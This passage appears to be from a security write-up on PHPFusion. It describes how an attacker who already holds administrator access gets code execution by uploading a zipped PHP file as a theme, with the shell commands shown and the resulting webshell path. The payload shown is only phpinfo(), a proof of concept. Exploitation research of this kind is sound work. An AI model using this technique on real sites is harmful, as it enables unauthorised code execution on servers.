




# B1: PHPFusion trick

Let's imagine that you have obtained an administrator account, either using the Stored XSS (authenticated) or using the POI to SQLi (pre-auth). Now all you have to do is get a shell. There are several options for doing so. However a relatively simple one is to use the functionality to upload a theme.


```
▶ mkdir shell
```

```
▶ echo "<?php phpinfo(); ?>" > shell/theme.php
```

```
▶ zip test.zip shell/theme.php
  adding: shell/theme.php (stored 0%)
```

Then all you have to do is upload your zip file.





Your webshell will be accessible through the route <span style="color:red">\<ROOT\>/themes/shell/theme.php</span>



